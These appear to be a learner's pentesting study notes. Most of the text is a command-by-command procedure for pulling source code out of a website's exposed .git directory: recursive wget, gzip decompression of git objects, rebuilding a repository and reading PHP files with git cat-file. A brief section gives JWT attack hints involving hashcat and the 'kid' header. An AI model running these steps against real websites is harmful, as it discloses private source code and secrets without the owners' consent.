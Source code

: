 ## PTL Blue Random Notes

#### Git Information Leak

- wget -r http://<RHOST>/.git/
- git diff

#### JWT

- hashcat
- Always Look out for the kid param in the jwt token header which might be a vector for an attack

## Git Information Leak II

- .git/config
- .git/HEAD
- .git/HEAD => refs/heads/master => .git/refs/heads/master
- 4eb80f585fec91b4d06aeb119230c9870dc494e1
- .git/objects/4e/b80f585fec91b4d06aeb119230c9870dc494e1
- file b80f585fec91b4d06aeb119230c9870dc494e1 => zlib compressed data
- printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - b80f585fec91b4d06aeb119230c9870dc494e1 |gzip  -cd -q
- - .git/objects/58/ace0476093d04023f84d7816adacfa7b879c43
- printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - ace0476093d04023f84d7816adacfa7b879c43 |gzip  -cd -q | strings -a
- mkdir /tmp/hack
- cd /tmp/hack
- git init 
- mkdir -p .git/objects/58 .git/objects/4e
- cp /tmp/ace0476093d04023f84d7816adacfa7b879c43 /tmp/hack/.git/objects/58/
- cp /tmp/b80f585fec91b4d06aeb119230c9870dc494e1 /tmp/hack/.git/objects/4e/
- git cat-file -p 58ace0476093d04023f84d7816adacfa7b879c43
- => 100644 blob 5adab1a1c52dc009d4f26bbce30dacc4c93eea33	footer.php
- => 100644 blob c3646db7f9c7e6f126c75900fdcce16d50e1da82	header.php
- => 100644 blob 88beb94b5e1fc48e1625c89f892b04bffb58225c	index.php
- .git/objects/5a/dab1a1c52dc009d4f26bbce30dacc4c93eea33 footer.php
- git cat-file -p 5adab1a1c52dc009d4f26bbce30dacc4c93eea33
- .git/objects/c3/646db7f9c7e6f126c75900fdcce16d50e1da82 header.php
- git cat-file -p c3646db7f9c7e6f126c75900fdcce16d50e1da82
- Some tools like Git-Money, DVCS-Pillage and GitTools automate the retrieval of the remote content.
